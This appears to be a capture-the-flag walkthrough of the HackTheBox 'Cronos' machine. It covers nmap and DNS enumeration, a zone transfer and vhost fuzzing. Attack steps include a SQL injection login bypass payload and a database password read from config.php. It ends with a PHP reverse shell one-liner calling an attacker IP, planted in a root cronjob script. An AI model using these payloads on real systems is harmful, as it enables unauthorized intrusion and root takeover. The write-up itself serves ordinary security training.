





# Cronos
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.10.13 -T4                            
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-01 14:23 BST
Stats: 0:00:02 elapsed; 0 hosts completed (0 up), 0 undergoing Host Discovery
Parallel DNS resolution of 1 host. Timing: About 0.00% done
Warning: 10.10.10.13 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.10.13 (10.10.10.13)
Host is up (0.15s latency).
Not shown: 65520 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
22/tcp    open     ssh
53/tcp    open     domain
80/tcp    open     http

```
```
└─$ nmap -Pn -p22,53,80 -sC -sV 10.10.10.13 -T4
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-01 15:04 BST
Nmap scan report for 10.10.10.13 (10.10.10.13)
Host is up (0.12s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


```
- Web server


- `dns`
```
└─$ nslookup -q=ptr 10.10.10.13 10.10.10.13    
Server:         10.10.10.13
Address:        10.10.10.13#53

13.10.10.10.in-addr.arpa        name = ns1.cronos.htb.
```
```
└─$ dig axfr @10.10.10.13 cronos.htb       

; <<>> DiG 9.18.16-1-Debian <<>> axfr @10.10.10.13 cronos.htb
; (1 server found)
;; global options: +cmd
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.             604800  IN      NS      ns1.cronos.htb.
cronos.htb.             604800  IN      A       10.10.10.13
admin.cronos.htb.       604800  IN      A       10.10.10.13
ns1.cronos.htb.         604800  IN      A       10.10.10.13
www.cronos.htb.         604800  IN      A       10.10.10.13
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
;; Query time: 220 msec
;; SERVER: 10.10.10.13#53(10.10.10.13) (TCP)
;; WHEN: Fri Sep 01 15:14:05 BST 2023
;; XFR size: 7 records (messages 1, bytes 203)
```
- `vhosts`
```
└─$ ffuf -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u 'http://cronos.htb/' -H 'Host: FUZZ.cronos.htb' -fs 11439  

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://cronos.htb/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt
 :: Header           : Host: FUZZ.cronos.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 11439
________________________________________________

[Status: 200, Size: 2319, Words: 990, Lines: 86, Duration: 309ms]
    * FUZZ: www

[Status: 200, Size: 1547, Words: 525, Lines: 57, Duration: 5057ms]
    * FUZZ: admin

```

## Foothold/User
- `www.cronos.htb`


- `admin.cronos.htb`


- Default `admin:admin` creds don't work


- Tried basic `sqli` payloads
  - `admin' or 1-- -` didn't work
  - `' or 1-- 1` works






- Okay, right away we see possible `command injection`


- Sending modified request from `burp` with `command injection` works


- Now we need to get reverse shell



## Root
- Tried password from `config.php` in web root, but didn't work
```
www-data@cronos:/var/www/admin$ grep -inrl "passw" .
./config.php
./index.php
```
```
www-data@cronos:/var/www/admin$ cat config.php 
<?php
   define('DB_SERVER', 'localhost');
   define('DB_USERNAME', 'admin');
   define('DB_PASSWORD', 'kEjdbRigfBHUREiNSDs');
   define('DB_DATABASE', 'admin');
   $db = mysqli_connect(DB_SERVER,DB_USERNAME,DB_PASSWORD,DB_DATABASE);
?>
```
```
www-data@cronos:/var/www/admin$ su -
Password: 
su: Authentication failure
www-data@cronos:/var/www/admin$ 
```

- The name of the box is `cronos` maybe, it's related to cronjobs
  - So we might need to check there



- Looks like the job is running every minute as `root`
  - Let's modify `artisan` 
    - I used https://www.revshells.com/
    - `$sock=fsockopen("10.10.16.4",6666);exec("/bin/bash <&3 >&3 2>&3");`



- And we receive connection back


